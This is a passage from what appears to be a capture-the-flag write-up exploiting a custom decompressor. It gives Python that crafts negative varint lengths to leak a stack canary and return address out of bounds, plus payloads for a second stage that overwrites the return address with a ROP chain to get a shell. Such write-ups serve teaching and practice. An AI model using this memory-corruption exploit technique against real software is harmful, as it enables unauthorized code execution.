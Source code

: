 The leaks were easier to reason about, so I started doing these. They're also the first thing you need to obtain so that's great.

Basically, we can poison the pattern length metadata so that the decompress goes to search for bytes to copy out of bounds.

We need negative values to leak bytes on higher addresses than the output array.

I implemented this function to help me craft length values: 

```python
def make_length(n):
    i = 0
    out = 0
    while n != 0:
        out |= (n & 0x7f) << (8*i)
        n >>= 7
        # set MSB to 1 if length continues
        if n != 0:
            out |= 0x80 << (8*i)
        i += 1

    numb = out.bit_length()//8 + 1
    b = out.to_bytes(numb, 'little').rstrip(b'\x00')
    return b.hex().encode()
```

Since the variables are signed 64 bit integers, we can craft negative values like this 

```python
# make_length(2**64 - offset)
# payload to leak the canary
canary_leak = b'54494e59ff' + make_length(2**64 - 4104) + make_length(8) + b'ff0000'
# THIS LEAKS MAIN'S RETADDR AND CANARY, IN THAT ORDER
uberleak = b'54494e59ff' + make_length(2**64 - 4104 - 0x30) + make_length(8) + b'ff' + make_length(2**64 - 4104+8) + make_length(8) + b'ff0000'
```

In this example, 4104 is the offset of the canary relative to the output array in the stack.

Note that, to leak multiple values, we have to take into account the amount of bytes we have already written, as the index of the array moves with them.

## Second Stage and Shell

Ok, we can leak things from the stack, but how do we overwrite the ret address while keeping the canary intact? We can use the overflow in the pattern copy snippet.

After writing the leaks to the output array, we can use them as pattern! So we can start copying the values lots of times, until we reach the canary and the ret addr.

I noticed that the stack has a pointer to start(), so we can leak that and then use it as a ret address.

It's all about alignment of the leaks at this point. 
In the second stage we do pretty much the same except we insert our rop as normal bytes and then we start copying it lots of times until we overwrite ret addr.
